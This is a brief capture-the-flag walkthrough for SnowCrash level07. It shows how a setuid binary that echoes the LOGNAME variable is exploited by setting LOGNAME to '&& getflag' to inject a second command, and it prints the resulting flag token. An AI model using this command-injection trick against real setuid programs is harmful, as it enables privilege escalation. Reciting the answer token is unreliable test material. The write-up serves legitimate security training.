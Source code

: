 How to find:


    level07@SnowCrash:~$ ls -la
    total 24
    dr-x------ 1 level07 level07  120 Mar  5  2016 .
    d--x--x--x 1 root    users    340 Aug 30  2015 ..
    -r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
    -r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
    -rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
    -r-x------ 1 level07 level07  675 Apr  3  2012 .profile

Examine file with strngs (shows all printable characters in the stdout)
"We keep the interesting part"

    level07@SnowCrash:~$ strings level07 
    
    ...
    LOGNAME
    /bin/echo %s 
    ...

Seems to be using LOGNAME var 
Modify the variable LOGNAME and execute level07 again


    export LOGNAME="&& getflag"

So instead of executing "echo $LOGNAME" it will execute getflag command

    level07@SnowCrash:~$ ./level07 

    Check flag.Here is your token : fiumuikeil55xe9cu4dood66h

